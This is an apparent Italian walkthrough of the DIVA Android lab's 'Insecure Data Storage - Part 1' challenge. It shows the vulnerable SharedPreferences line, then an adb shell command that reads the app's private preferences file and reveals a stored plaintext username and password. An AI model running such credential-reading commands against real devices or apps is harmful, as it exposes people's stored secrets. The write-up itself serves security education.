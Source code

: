 ## Insecure Data Storage - Part 1

Codice Vulnerabile:

> app/src/main/java/jakhar/aseem/diva/InsecureDataStorage1Activity.java

```
SharedPreferences spref = PreferenceManager.getDefaultSharedPreferences(this);
```

SharedPreferences salva le coppie chiave-valore in un file (privato o condiviso).

Exploit:

`$ adb shell`

`# cat /data/data/jakhar.aseem.diva/shared_prefs/jakhar.aseem.diva_preferences.xml`

```
<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
<map>
	<string name="user">john</string>
	<string name="password">lock</string>
</map>
```
